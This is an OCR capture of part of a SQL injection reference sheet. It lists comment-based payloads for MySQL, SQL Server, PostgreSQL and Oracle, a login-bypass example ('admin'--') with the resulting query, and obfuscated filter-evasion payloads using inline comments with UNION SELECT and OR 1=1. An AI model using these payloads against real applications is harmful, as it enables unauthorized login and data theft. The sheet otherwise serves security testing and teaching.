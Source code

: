 #### Comment Syntax by Database
```sql
-- MySQL/MSSQL/PostgreSQL
admin'--

-- MySQL alternative
admin'#

-- Oracle (requires space or newline)
admin'-- 

-- Generic (works in most databases)
admin'/*
```

#### Comment Injection Examples
```sql
-- Bypass password check
username: admin'--
-- Result: SELECT * FROM users WHERE username='admin'--' AND password='anything'

-- Terminate query early
search: test'-- AND status='active'
-- Result: SELECT * FROM products WHERE name='test'-- AND status='active'
```

### Inline Comments

Uses comment blocks within the SQL statement to bypass filtering or obfuscate payloads.

#### Comment Block Syntax
```sql
-- MySQL
admin'/*comment*/OR/*comment*/1=1--

-- SQL Server
admin'/*comment*/OR/*comment*/1=1--

-- Oracle
admin'/*comment*/OR/*comment*/1=1--
```

#### Obfuscation Techniques
```sql
-- Bypass keyword filtering
admin'/**/UNION/**/SELECT/**/1,2,3--

-- Split keywords
admin'/**/UN/**/ION/**/SE/**/LECT/**/user(),version()--

-- Mixed with spaces
admin' /**/ OR /**/ 1=1 /**/ --
```
